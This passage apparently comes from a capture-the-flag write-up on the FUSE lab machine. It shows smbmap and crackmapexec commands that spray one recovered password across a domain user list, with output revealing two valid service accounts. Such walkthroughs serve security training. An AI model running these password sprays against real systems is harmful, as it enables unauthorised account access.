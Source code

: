 ### Find user

On first reading, I figured that the user for the share might be scan2docs,
but that doesn’t work:

    
    
    root@kali# smbmap -H 10.10.10.193 -u scan2docs -p '$fab@s3Rv1ce$1'
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.193
    [!] Authentication error on 10.10.10.193
    

At this point, I want to see what other users might use this password.
`crackmapexec` will do the trick:

    
    
    root@kali# crackmapexec smb 10.10.10.193 -u users -p '$fab@s3Rv1ce$1' --continue-on-success
    SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    
